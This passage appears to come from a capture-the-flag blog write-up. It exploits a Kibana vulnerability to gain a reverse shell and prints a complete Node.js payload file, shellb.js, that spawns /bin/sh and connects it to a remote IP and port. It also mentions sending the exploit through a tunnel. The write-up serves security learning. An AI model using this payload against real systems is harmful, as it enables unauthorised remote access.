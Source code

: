 [<img class="alignnone wp-image-363 size-large" src="/assets/img/2019/10/2019-10-03_10h34_08.png" />](/assets/img/2019/10/2019-10-03_10h34_08.png)

But what we really want is to run the exploit and get a reverse shell.

<img class="alignnone wp-image-366 size-full" src="/assets/img/2019/10/2019-10-03_10h55_54.png" /> 

The above screenshot shows a tunnel connection where I created the [payload](https://github.com/mpgn/CVE-2018-17246) file &#8220;shellb.js&#8221;, and it shows the exploit command being sent to my tunneled port, and finally it shows the reverse connected shell on the left =).

The kibana payload file:

{% highlight javascript %}
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1337, "10.10.14.142", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
{% endhighlight %}
